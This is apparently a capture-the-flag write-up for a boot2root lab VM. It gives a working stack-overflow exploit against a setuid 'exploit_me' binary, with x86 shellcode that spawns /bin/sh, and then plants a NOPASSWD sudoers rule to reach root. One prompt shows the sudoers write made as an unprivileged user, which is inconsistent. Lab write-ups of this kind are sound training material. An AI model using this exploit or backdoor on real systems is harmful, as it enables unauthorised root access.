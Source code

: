 ### Writeup 6 

> Grant access to laurie without being root

For this exploit, we will use the `exploit_me` binary that is present on the user zaz's home directory. We will make it segfault, add a shellcode and overwrite the return address to point to the shellcode.

```py 
import struct
pad = "\x41" * 140
EIP = struct.pack("I", 0xbffff6A0)
NOP = "\x90" * 100
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
print(pad + EIP + NOP + shellcode)
```

After that, we will write in the /etc/sudoers.d/README to add the line `laurie ALL=(ALL) NOPASSWD: ALL` to grant access to laurie without being root.

```bash
zaz@BornToSecHackMe:~$ echo "laurie ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/README
```

Now, we can connect as laurie and add ourselves to the root group.

```bash
ssh laurie@192.168.56.101
laurie@BornToSecHackMe:~$ sudo adduser laurie root
```

```bash
laurie@BornToSecHackMe:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
